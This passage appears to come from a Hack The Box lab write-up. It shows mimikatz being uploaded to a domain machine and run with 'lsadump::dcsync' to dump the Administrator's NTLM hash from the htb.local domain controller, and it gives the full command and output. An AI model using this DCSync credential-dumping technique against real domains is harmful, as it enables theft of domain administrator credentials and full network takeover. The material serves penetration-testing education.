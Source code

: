 Although we used secretsdump.py, an alternative would have been to use mimikatz to do the same thing. Uploading mimikatz.exe to the machine as rin and then running:

```bash
<c:\Users\rin\Documents> .\mimikatz.exe "lsadump::dcsync /domain:htb.local /user:administrator" exit
 .#####. mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ## > http://blog.gentilkiwi.com/mimikatz
 '## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
 '#####' > http://pingcastle.com / http://mysmartlogon.com ***/
mimikatz(commandline) # lsadump::dcsync /domain:htb.local /user:administrator
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] 'administrator' will be the user account
Object RDN : Administrator
** SAM ACCOUNT **
SAM Username : Administrator
User Principal Name : Administrator@htb.local
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration :
Password last change : 9/18/2019 9:09:08 AM
Object Security ID : S-1-5-21-3072663084-364016917-1341370565-500
Object Relative ID : 500
Credentials:
 Hash NTLM: 32693b11e6aa90eb43d32c72a07ceea6
mimikatz(commandline) # exit

```



